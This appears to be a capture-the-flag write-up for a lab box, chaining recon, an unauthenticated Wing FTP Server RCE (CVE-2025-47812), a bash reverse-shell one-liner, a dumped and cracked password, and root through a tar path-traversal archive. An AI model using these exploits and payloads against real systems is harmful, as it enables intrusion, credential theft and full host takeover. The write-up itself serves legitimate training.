

WingData

Recon
Two ports, SSH on a Debian box and Apache on 80 serving a corporate site called "WingData Solutions". The service info also leaks Host: localhost.
[WingData] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap 10.129.1.205
Nmap scan report for wingdata.htb (10.129.1.205)
Host is up (0.17s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open http Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: WingData Solutions
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernelI added wingdata.htb to /etc/hosts. The main page is a static brochure, but it references an FTP portal at ftp.wingdata.htb. Adding that vhost too, port 80 serves the web interface of Wing FTP Server 7.4.3, with the version visible on the login page.
Exploitation
Wing FTP Server up to 7.4.3 is vulnerable to CVE-2025-47812, an unauthenticated remote code execution. The bug comes from a mismatch in how the server handles a NULL byte in the username field: c_CheckUser() truncates the string at the NULL, so even anonymous authenticates, while the session-writing logic keeps the full, unsanitised username. That lets you smuggle Lua code past the login into the session file, and the code runs when an authenticated page like /dir.html is loaded.
I used 4m3rr0r's PoC, which chains both requests automatically: it POSTs the poisoned username to loginok.html, grabs the returned UID cookie, then requests dir.html to trigger the injected io.popen call. A quick id confirms execution:
[WingData] python3 exploit.py -u http://ftp.wingdata.htb -c id
[+] UID extracted: ...
--- Command Output ---
uid=1001(wingftp) gid=1001(wingftp) groups=1001(wingftp)
----------------------The CVE notes usually promise root, but this box runs the service under a dedicated wingftp account, so the RCE lands there. I turned it into an interactive shell by feeding the exploit a reverse-shell one-liner:
[WingData] nc -lvnp 4444
[WingData] python3 exploit.py -u http://ftp.wingdata.htb -c 'bash -c "bash -i >& /dev/tcp/10.10.14.213/4444 0>&1"'[WingData] nc -lvnp 4444
Connection received on 10.129.1.205
wingftp@wingdata:/opt/wftpserver$ id
uid=1001(wingftp) gid=1001(wingftp) groups=1001(wingftp)Post Exploitation
Foothold as wingftp. Wing FTP stores each account as an XML file under its data directory, and those files include the stored password hash. The wacky account stands out:
wingftp@wingdata:/opt/wftpserver$ cat Data/1/users/wacky.xml
<USER>
<UserName>wacky</UserName>
<Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
...
</USER>Cracking that stored credential offline against rockyou recovers the plaintext:
wacky : !#7Blushing^*Bride5wacky is also a system user, and the password is reused for it, so SSH gets a proper session and the user flag:
[WingData] ssh wacky@wingdata.htb
wacky@wingdata:~$ id
uid=1002(wacky) gid=1002(wacky) groups=1002(wacky)
wacky@wingdata:~$ cat user.txtPrivilege Escalation
wacky can run a backup-restore script as root, and the trailing wildcard means I control the argument it is invoked with:
wacky@wingdata:~$ sudo -l
User wacky may run the following commands on wingdata:
(root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *The script restores a client backup by extracting an archive that I hand it, and it does so as root without sanitising the paths inside that archive (the classic tarfile.extractall traversal). An archive member whose name climbs out of the extraction directory therefore gets written anywhere on disk, as root. That is a straight arbitrary file write, so I aimed it at root's authorized_keys.
First generate a keypair, then build a tar whose single entry traverses into /root/.ssh/authorized_keys and carries my public key:
[WingData] ssh-keygen -f ./id_rsa -N ''
wacky@wingdata:~$ mkdir -p payload/.ssh
wacky@wingdata:~$ cp id_rsa.pub payload/.ssh/authorized_keys
wacky@wingdata:~$ python3 -c 'import tarfile;
t=tarfile.open("evil.tar","w");
t.add("payload/.ssh/authorized_keys", arcname="../../../../root/.ssh/authorized_keys");
t.close()'Feeding that archive to the sudo-allowed restore makes root extract my authorized_keys into its own home:
wacky@wingdata:~$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py /home/wacky/evil.tarWith the key planted, SSH straight in as root:
[WingData] ssh -i id_rsa root@wingdata.htb
root@wingdata:~# id
uid=0(root) gid=0(root) groups=0(root)
root@wingdata:~# cat /root/root.txt